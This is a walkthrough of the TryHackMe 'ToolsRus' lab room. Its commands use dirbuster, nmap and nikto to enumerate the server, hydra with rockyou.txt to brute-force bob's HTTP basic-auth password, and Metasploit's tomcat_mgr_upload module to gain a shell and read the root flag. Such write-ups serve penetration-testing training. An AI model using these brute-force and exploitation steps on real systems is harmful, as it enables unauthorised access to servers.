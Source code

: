 # [ToolsRus](https://tryhackme.com/room/toolsrus)

## Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit

# ToysRus

## Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

### What directory can you find, that begins with a "g"?

1. Use dirbuster, there is only one directory that begins with "g"

```Bash
dirbuster
```

![SCREEN01](https://github.com/user-attachments/assets/1b6bb738-59b8-4ba7-a024-c7b0e47c612f)
![SCREEN02](https://github.com/user-attachments/assets/1f05593f-6503-406c-8b8e-e7e70418b47d)

### Whose name can you find from this directory?

1. Just go to the endpoint

![SCREEN03](https://github.com/user-attachments/assets/a753ba28-f2ea-42a5-81ec-eb2a93a75fdf)

### What directory has basic authentication?

1. In dirbuster results there is one results with status 401

![SCREEN02](https://github.com/user-attachments/assets/8d05266d-5523-4e62-b919-4a765682e261)

### What is bob's password to the protected part of the website?

1. Use hydra

```Bash
hydra -l bob -P /root/Desktop/wordlists/rockyou.txt <IP> http-get /protected
```

- `-l`: Single username specification
- `-P`: Password list file path

![SCREEN04](https://github.com/user-attachments/assets/ec57e313-fb73-4f29-8853-9942b02e570e)

### What other port that serves a webs service is open on the machine?

1. This will be the next one after 80

```Bash
nmap -p- -sV <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports
- `-sV`: Probes ports to determine service/version info

![SCREEN05](https://github.com/user-attachments/assets/cff1ef5d-347b-4b4b-9a36-5df15c2e27f3)

### What is the name and version of the software running on the port from question 5?

It will be revealed after going to `http://<IP>:1234/`

![SCREEN06](https://github.com/user-attachments/assets/5384d412-b264-488f-ac81-5a466e1f0415)

### Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many docume0

```Bash
nikto -h http://<IP>:1234/manager/html -id bob:b**s
```

- `-h`: specifies the host (including port if non-standard)
- `-id`: provides credentials in username:password format

![SCREEN07](https://github.com/user-attachments/assets/0b7774db-1831-455c-b2e3-fd43442150db)

### What is the server version?

1. Use nikto on port 80

```Bash
nikto -h http://<IP>:80
```

- `-h`: Specifies the host target

![SCREEN08](https://github.com/user-attachments/assets/449b7d86-277a-4fa7-917b-e324c3aadee5)

### What version of Apache-Coyote is this service using?

1. We have found the answer in our nmap enumeration

![SCREEN05](https://github.com/user-attachments/assets/2c4b3f74-c026-4297-99a2-1a38f0a2a0cd)

### Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as?

1. Select the `multi/http/tomcat_mgr_upload`

```Bash
msfconsole
search tomcat
use 18
set RHOSTS <IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword b**s
run
shell
id
```

![SCREEN09](https://github.com/user-attachments/assets/dce5ca95-0de8-4826-844c-c0fb78434fbe)

### What flag is found in the root directory?

```Bash
cat /root/flag.txt
```

![SCREEN10](https://github.com/user-attachments/assets/aa2f3327-0754-474a-bd26-13332f536442)
